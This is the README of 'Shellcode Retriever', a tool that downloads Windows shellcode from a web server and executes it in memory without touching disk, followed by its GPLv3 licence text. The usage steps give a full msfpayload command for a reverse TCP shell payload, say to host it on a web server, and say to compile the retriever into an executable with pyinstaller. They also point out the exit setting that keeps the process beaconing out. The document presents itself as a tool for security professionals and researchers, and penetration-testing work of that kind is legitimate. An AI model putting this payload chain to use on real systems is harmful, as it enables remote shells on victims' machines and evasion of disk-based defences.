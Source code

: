 ##Shellcode Retreiver
Downloads win32 shellcode from webservers and executes the shellcode without it touching disk (using the following method: http://www.debasish.in/2012_04_01_archive.html)

---

For use by IT professionals and researchers.

Usage:

Create shellcode using the following msfpayload command:

msfpayload windows/shell_reverse_tcp LHOST=192.168.0.1 LPORT=8080 EXITFUNC=thread R > test.txt

Notice the exit function, very important if you want the process to run and beacon out based on timeouts in the source code.

Upload the shellcode to your webserver.

Compile the python code to an executeable by using pyinstaller.


---

##License:   GPLv3


    Shellcode Retriever

    Author Joshua Pitts the.midnite.runr 'at' gmail <d ot > com
    
    Copyright (C) 2013, Joshua Pitts

    License:   GPLv3

    This program is free software: you can redistribute it and/or modify
    it under the terms of the GNU General Public License as published by
    the Free Software Foundation, either version 3 of the License, or
    (at your option) any later version.

    This program is distributed in the hope that it will be useful,
    but WITHOUT ANY WARRANTY; without even the implied warranty of
    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    GNU General Public License for more details.

    See <http://www.gnu.org/licenses/> for a copy of the GNU General
    Public License

    This program is to be used for only legal activities by IT security
    professionals and researchers. Author not responsible for malicious
    uses.